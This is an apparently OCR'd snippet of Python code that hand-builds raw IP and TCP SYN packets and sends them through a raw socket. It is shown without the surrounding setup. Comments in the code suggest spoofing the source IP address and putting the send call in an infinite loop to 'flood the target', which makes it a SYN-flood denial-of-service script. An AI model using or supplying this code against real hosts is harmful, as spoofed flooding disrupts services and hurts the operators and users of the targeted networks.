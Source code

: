>	tos = 0
>	tot_len = 20 + 20	# python seems to correctly fill the total length, dont know how ??
>	id = 54321	#Id of this packet
>	frag_off = 0
>	ttl = 255
>	protocol = socket.IPPROTO_TCP
>	check = 10	# python seems to correctly fill the checksum
>	saddr = socket.inet_aton ( source_ip )	#Spoof the source ip address if you want to
>	daddr = socket.inet_aton ( dest_ip )
>
>	ihl_version = (version << 4) + ihl
>
>	# the ! in the pack format string means network order
>	ip_header = pack('!BBHHHBBH4s4s' , ihl_version, tos, tot_len, id, frag_off, ttl, protocol, check, saddr, daddr)
>
>	# tcp header fields
>	source = 1234	# source port
>	dest = 8000	# destination port
>	seq = 0
>	ack_seq = 0
>	doff = 5	#4 bit field, size of tcp header, 5 * 4 = 20 bytes
>	#tcp flags
>	fin = 0
>	syn = 1
>	rst = 0
>	psh = 0
>	ack = 0
>	urg = 0
>	window = socket.htons (5840)	#	maximum allowed window size
>	check = 0
>	urg_ptr = 0
>
>	offset_res = (doff << 4) + 0
>	tcp_flags = fin + (syn << 1) + (rst << 2) + (psh <<3) + (ack << 4) + (urg << 5)
>
>	# the ! in the pack format string means network order
>	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, check, urg_ptr)
>
>	# pseudo header fields
>	source_address = socket.inet_aton( source_ip )
>	dest_address = socket.inet_aton(dest_ip)
>	placeholder = 0
>	protocol = socket.IPPROTO_TCP
>	tcp_length = len(tcp_header)
>
>	psh = pack('!4s4sBBH' , source_address , dest_address , placeholder , protocol , tcp_length);
>	psh = psh + tcp_header;
>
>	tcp_checksum = checksum(psh)
>
>	# make the tcp header again and fill the correct checksum
>	tcp_header = pack('!HHLLBBHHH' , source, dest, seq, ack_seq, offset_res, tcp_flags,  window, tcp_checksum , urg_ptr)
>
>	# final full packet - syn packets dont have any data
>	packet = ip_header + tcp_header
>
>	#Send the packet finally - the port specified has no effect
>
>	s.sendto(packet, (dest_ip , 0 ))	# put this in a loop if you want to flood the target
>
>#put the above line in a loop like while 1: if you want to flood